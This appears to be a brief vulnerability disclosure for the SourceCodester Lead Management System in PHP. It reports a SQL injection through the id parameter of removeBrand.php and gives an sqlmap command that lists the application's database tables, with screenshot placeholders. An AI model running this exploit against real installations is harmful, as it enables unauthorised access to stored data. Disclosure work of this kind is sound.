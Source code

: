 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219162615294](C:\markdown\images\image-20221219162615294.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeBrand.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219162423487](C:\markdown\images\image-20221219162423487.png)